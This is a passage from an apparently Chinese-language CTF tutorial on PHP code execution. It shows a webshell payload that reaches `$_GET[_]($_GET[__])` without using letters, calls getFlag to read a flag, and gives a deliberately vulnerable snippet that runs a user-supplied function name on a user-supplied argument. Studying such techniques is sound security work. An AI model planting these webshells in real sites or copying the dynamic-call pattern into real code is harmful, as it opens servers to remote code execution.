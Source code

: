 所以我们可以知道， `_GET` 就是这么被构造出来的啦！

#### ② 获取 `_GET` 参数

我们又该如何获取 `_GET` 参数呢？咱们可以构造出如下字串：

```
<?php
    echo ${$_}[_](${$_}[__]);//$_GET[_]($_GET[__])
?>
```

根据前面构造的来看， `$_` 已经变成了 `_GET` 。顺理成章的来讲， `$_ = _GET` 。我们构建 `$_GET[__]` 是为了要获取参数值。

#### ③ 传入参数

此时我们只需要去调用 `getFlag` 函数获取 `webshell` 就好了，构造如下：

```
<?php
    echo $_=getFlag;//getFlag
?>
```

所以把参数全部连接起来，就可以了。

![](./php/figure/preg_match/payloads.png)

结果如下：

![](./php/figure/preg_match/flag.png)

于是我们就成功地读取到了flag！

### 动态函数执行

用户自定义的函数可以导致代码执行。

```php
<?php
$dyn_func = $_GET["dyn_func"];
$argument = $_GET["argument"];
$dyn_func($argument);
?>
```
